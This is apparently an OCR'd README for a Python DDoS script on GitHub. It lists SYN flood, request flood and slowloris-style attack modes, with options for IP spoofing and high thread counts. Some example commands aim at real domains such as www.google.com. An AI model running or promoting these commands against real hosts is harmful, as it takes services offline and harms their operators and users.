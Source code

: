 
## ddos-script

* This script have 3 type of ddos attacks : SYNFLOOD | REQUEST | Pyslow
* Script has pyslow attack type which is similar to slowloris attack
# Requires module
* termcolor
* colorama
# Usage
         
version= '1.0'
title = '''

𐌃𐌃ꝋ𐌔-𐌔𐌂ɽ𐌉𐌐𐌕

 DDos python script | Script used for testing ddos | Ddos attack     
 Author: EinsPommes                                                
 Github: https://github.com/EinsPommes/ddos-script                           
 Version:'''+version+''' 
'''
"
    usage: python3 pyddos.py -t [target] -p [port] -t [number threads]

    optional arguments:
    -h, --help       show this help message and exit
    -v, --version    show program's version number and exit

    options:

    -d <ip|domain>   Specify your target such an ip or domain name
    -t <float>       Set timeout for socket
    -T <int>         Set threads number for connection (default = 1000)
    -p <int>         Specify port target (default = 80) |Only required with pyslow attack|
    -s <int>         Set sleep time for reconnection
    -i <ip address>  Specify spoofed ip unless use fake ip
    -Request         Enable request target
    -Synflood        Enable synflood attack
    -Pyslow          Enable pyslow attack
    --fakeip         Option to create fake ip if not specify spoofed ip

    Example:
        python3 pyddos.py -d www.example.com -p 80 -T 2000 -Pyslow
        python3 pyddos.py -d www.domain.com -s 100 -Request
        python3 pyddos.py -d www.google.com -Synflood -T 5000 -t 10.0"